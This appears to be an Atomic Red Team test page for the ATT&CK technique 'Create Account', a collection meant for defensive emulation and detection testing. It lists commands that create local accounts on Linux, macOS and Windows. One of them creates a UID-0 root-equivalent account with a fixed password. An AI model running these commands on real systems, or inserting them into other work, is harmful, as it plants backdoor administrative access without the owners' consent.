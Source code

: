 # T1136 - Create Account
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1136)
<blockquote>Adversaries with a sufficient level of access may create a local system or domain account. Such accounts may be used for persistence that do not require persistent remote access tools to be deployed on the system.

The <code>net user</code> commands can be used to create a local or domain account.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Create a user account on a Linux system](#atomic-test-1---create-a-user-account-on-a-linux-system)

- [Atomic Test #2 - Create a user account on a MacOS system](#atomic-test-2---create-a-user-account-on-a-macos-system)

- [Atomic Test #3 - Create a new user in a command prompt](#atomic-test-3---create-a-new-user-in-a-command-prompt)

- [Atomic Test #4 - Create a new user in PowerShell](#atomic-test-4---create-a-new-user-in-powershell)

- [Atomic Test #5 - Create a new user in Linux with `root` UID and GID.](#atomic-test-5---create-a-new-user-in-linux-with-root-uid-and-gid)


<br/>

## Atomic Test #1 - Create a user account on a Linux system
Create a user via useradd

**Supported Platforms:** Linux


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | evil_user|
| comment | Comment to record when creating the user | String | Evil Account|

#### Run it with `bash`! ```
useradd -M -N -r -s /bin/bash -c "#{comment}" #{username}
```



<br/>
<br/>

## Atomic Test #2 - Create a user account on a MacOS system
Creates a user on a MacOS system with dscl

**Supported Platforms:** macOS


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | evil_user|
| realname | 'realname' to record when creating the user | String | Evil Account|

#### Run it with `bash`! ```
dscl . -create /Users/#{username}
dscl . -create /Users/#{username} UserShell /bin/bash
dscl . -create /Users/#{username} RealName "#{realname}"
dscl . -create /Users/#{username} UniqueID "1010"
dscl . -create /Users/#{username} PrimaryGroupID 80
dscl . -create /Users/#{username} NFSHomeDirectory /Users/#{username}
```



<br/>
<br/>

## Atomic Test #3 - Create a new user in a command prompt
Creates a new user in a command prompt

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | Evil Account|

#### Run it with `command_prompt`!  Elevation Required (e.g. root or admin) ```
net user /add #{username}
```



<br/>
<br/>

## Atomic Test #4 - Create a new user in PowerShell
Creates a new user in PowerShell

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | Evil Account|

#### Run it with `powershell`!  Elevation Required (e.g. root or admin) ```
New-LocalUser -Name #{username} -NoPassword
net user /add #{username}
```



<br/>
<br/>

## Atomic Test #5 - Create a new user in Linux with `root` UID and GID.
Creates a new user in Linux and adds the user to the `root` group. This technique was used by adversaries during the Butter attack campaign.

**Supported Platforms:** Linux


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | butter|
| password | Password of the user to create | String | BetterWithButter|

#### Run it with `bash`! ```
useradd -o -u 0 -g 0 -M -d /root -s /bin/bash #{username}
echo "#{password}" | passwd --stdin #{username}
```



<br/>
